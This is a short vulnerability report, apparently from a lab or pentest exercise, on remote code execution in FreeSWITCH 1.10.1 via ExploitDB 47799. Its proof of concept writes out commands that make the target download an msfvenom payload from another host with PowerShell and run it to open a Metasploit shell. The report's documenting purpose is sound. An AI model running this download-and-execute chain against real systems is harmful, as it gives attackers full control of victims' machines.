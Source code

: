 # Vulnerability Report : Free Switch 1.10.1 - Remote Code Execution (RCE)

* Severity : Critical


* Tool Used : Nmap + Searchsploit + Python


* CVE : No  
* EBD ID(ExploitDB ID) : 47799

 
* Impact : Allow to gain full control over the target System.


* Proof of Concept (POC):  

1. Search for freeswitch on the searchsploit : `searchsploit freeswitch`  
2. Copy the Available Script into your System : `searchsploit -m <exploit>`  
3. Then using Python Run the script, provide the IP of target and Command to execute on target system.  
```
python3 Freeswitch.py 192.168.0.104 'powershell Invoke-WebRequest -URI http://192.178.0.101/msfvenom_exploit.exe -o C:\TEMP\browser.exe'
```  
```
python3 Freeswitch.py 192.168.0.104 'C:\TEMP\browser.exe'
```  
4. Meanwhile, keep your metasploit listener running to get the shell access from the target system. 


* Recommendation:  
 - Change the Default Password to a complex one.  
 - If up-to-date version is available download from your software/service official repositiory.


* Attachments:  

![exploitDB](<screenshots/Screenshot 2025-05-27 142336.png>)  
![nmap](<screenshots/Screenshot 2025-05-27 140605.png>)  
![search](<screenshots/Screenshot 2025-05-27 140704.png>)  
![usage](<screenshots/Screenshot 2025-05-27 141023.png>)   
![shell](<screenshots/Screenshot 2025-05-27 141516.png>)  
![session](<screenshots/Screenshot 2025-05-27 142047.png>)



